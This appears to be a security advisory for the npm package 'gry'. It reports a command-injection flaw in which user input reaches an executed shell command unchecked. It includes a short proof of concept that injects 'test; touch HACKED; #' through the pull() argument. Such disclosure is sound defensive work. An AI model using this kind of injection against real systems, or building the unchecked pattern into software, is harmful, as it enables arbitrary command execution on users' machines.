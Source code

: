 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
const Repo = require("gry");
var myRepo = new Repo(".");
myRepo.pull("test; touch HACKED; #", function () {
  console.log("Finished!");
});
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i gry # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created

## References:

- [GitHub Issue](https://github.com/IonicaBizau/node-gry/issues/21)
- [GitHub Permalink #1](https://github.com/IonicaBizau/node-gry/blob/master/lib/index.js#L149)
